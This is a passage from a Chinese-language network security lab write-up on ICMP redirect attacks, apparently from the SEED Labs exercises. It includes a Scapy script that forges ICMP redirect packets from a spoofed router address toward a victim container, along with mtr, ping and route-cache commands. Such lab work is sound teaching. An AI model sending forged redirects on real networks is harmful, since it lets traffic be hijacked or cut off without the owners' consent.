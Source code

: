在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![image-20220825153640781](/src/assets/img/security/icmp4.png)

可以看出，此时没有变化。

> Question 2: Can you use ICMP redirect attacks to redirect to a non-existing machine on the same network? Namely, the IP address assigned to icmp.gw is a local computer that is either offline or non-existing. Please show your experiment result, and explain your observation.

修改程序：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.99'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

然后保持 victim ping `192.168.60.5`：

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

清空 cache：

```shell
victim-10.9.0.5$ ip route flush cache
```

